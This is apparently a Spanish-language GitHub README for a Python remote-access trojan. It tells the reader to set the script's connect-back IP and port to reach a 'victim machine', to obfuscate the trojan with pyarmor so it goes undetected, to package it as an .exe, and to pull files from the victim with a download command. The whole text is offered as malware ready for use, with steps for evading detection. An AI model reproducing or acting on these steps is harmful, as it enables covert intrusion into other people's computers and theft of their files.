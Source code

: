 # Troyano

<p align="center">
<img src="Logotipo.png">
</p>

Un troyano es un tipo de software malicioso que se disfraza de una aplicación legítima o atractiva para engañar a los usuarios y ganar acceso no autorizado a sus sistemas o dispositivos.

### Instalación

Descargar el repositorio de Github luego configurar el script **troyano.py** con tu IP publica para poder tener acceso remoto a la maquina victima

```python
conexion.connect(("192.168.1.10", 4444))
```


### Ofuscacion

Para hacer indetectable el troyano deberes instalar **pyarmor**

```
pip install pyarmor
```

Ahora ofuscamos el troyano con el siguiente comando:

```
pyarmor gen troyano.py
```

Luego de esto nos creara una carpeta Dist con el troyano ofuscado, por ultimo convertiremos **.py** a **.exe** con auto-py-to-exe.

```
pip install auto-py-to-exe
```

<p align="center">
<img src="./Img/virustotal.png">
</p>

### USO

Puedes descargar archivos con el siguiente comando:

```
download <nombre de archivo>
```